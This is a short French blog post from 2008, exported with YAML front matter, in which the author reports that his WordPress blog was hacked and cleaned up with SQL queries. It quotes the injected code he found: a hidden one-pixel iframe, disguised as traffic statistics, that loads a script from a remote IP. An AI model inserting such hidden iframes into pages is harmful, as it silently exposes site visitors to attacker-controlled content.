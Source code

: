 ```yaml
---
id: 515
title: 'Ce blog s’est fait kacker'
date: 2008-05-12T23:41:08+00:00
author: Régis
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /2008/05/ce-blog-sest-fait-kacker/
tmac_last_id:
  - ""
dsq_thread_id:
  - "564520470"
categories:
  - Général
  - Informatique
tags:
  - Hacking
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était &lsquo;potentiellement dangereux’. J’ai d’abord cru qu’ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
`<br />
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics --><br />
` 

WordPress a connu un certain nombre de failles de sécurité, et j’ai un peu de mal à suivre les mises à jour. 

J’ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>
